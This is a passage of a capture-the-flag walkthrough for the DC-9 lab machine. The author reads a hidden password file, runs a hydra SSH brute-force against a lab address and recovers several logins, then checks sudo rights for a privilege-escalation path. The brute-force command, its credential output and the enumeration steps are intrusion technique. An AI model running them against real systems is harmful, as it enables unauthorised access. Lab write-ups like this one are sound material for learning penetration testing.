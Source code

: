 we ssh to the box using janitor creds , and navigating to his home directory we find a hidden directory :

```bash
janitor@dc-9:~$ ls -lsa
total 16
4 drwx------  4 janitor janitor 4096 Oct 22 08:14 .
4 drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
0 lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
4 drwx------  3 janitor janitor 4096 Oct 22 08:14 .gnupg
4 drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin

```
on .secrets-for-putin directory we find this file : 

```bash
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt 

BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001

```
we append this list to the file of passwords we have and run hydra again :

```bash

hydra -L users.txt -P pwds.txt ssh://192.168.1.22

[DATA] attacking ssh://192.168.1.22:22/
[22][ssh] host: 192.168.1.22   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.1.22   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.22   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.1.22   login: janitor   password: Ilovepeepee

```

Anew user is found "fredf" with password: B4-Tru3-001

## shell as Fredf :

### sudo -l

fredf can run a python script with no password : 

```bash

fredf@dc-9:/var/tmp$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test

```
